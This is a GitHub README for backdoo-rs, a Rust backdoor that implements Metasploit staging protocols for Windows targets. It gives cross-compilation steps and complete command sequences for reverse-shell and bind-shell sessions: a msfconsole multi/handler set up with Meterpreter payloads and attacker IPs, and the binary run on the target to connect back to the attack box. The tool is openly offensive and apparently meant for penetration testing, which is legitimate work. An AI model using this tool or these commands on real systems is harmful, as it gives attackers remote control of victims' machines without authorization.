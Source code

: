 # backdoo-rs

[![](https://img.shields.io/github/stars/0xdea/backdoo-rs.svg?style=flat&color=yellow)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/github/forks/0xdea/backdoo-rs.svg?style=flat&color=green)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/github/watchers/0xdea/backdoo-rs.svg?style=flat&color=red)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/badge/twitter-%400xdea-blue.svg)](https://twitter.com/0xdea)
[![](https://img.shields.io/badge/mastodon-%40raptor-purple.svg)](https://infosec.exchange/@raptor)

> "Launch the Polaris  
> The end doesn't scare us  
> When will this cease?  
> The warheads will all rust in peace"
>
> -- Megadeth, Rust in Peace... Polaris (1990)

Minimalistic Rust implementation of the main staging protocols used by the Metasploit Framework.
Start an `exploit/multi/handler` instance on the attack box configured to handle one of the supported
payloads, run `backdoo-rs.exe` on the target Windows system, and enjoy your session!

Blog post:  
https://security.humanativaspa.it/learning-rust-for-fun-and-backdoo-rs

See also:  
https://github.com/0xdea/tactical-exploitation/blob/master/letmein.py  
https://github.com/0xdea/tactical-exploitation/blob/master/letmein.ps1  
https://github.com/0xdea/tactical-exploitation/blob/master/letme.go

## Cross-compiling

```
[macOS example]
$ brew install mingw-w64
$ rustup target add x86_64-pc-windows-gnu
$ cargo build --release --target x86_64-pc-windows-gnu
```

## Usage

```
C:\> backdoo-rs.exe [:port | host:port]
```

## Examples

Reverse shell:

```
[on the attack box]
$ msfconsole
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf > set LHOST 192.168.0.66
msf > exploit

[on the target box]
C:\> backdoo-rs.exe 192.168.0.66:4444
```

Bind shell:

```
[on the target box]
C:\> backdoo-rs.exe :4444

[on the attack box]
$ msfconsole
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/bind_tcp
msf > set RHOST 192.168.0.20
msf > exploit
```

## Supported payloads

* windows/x64/meterpreter/reverse_tcp
* windows/x64/meterpreter/bind_tcp

## Tested on

* Microsoft Windows 11
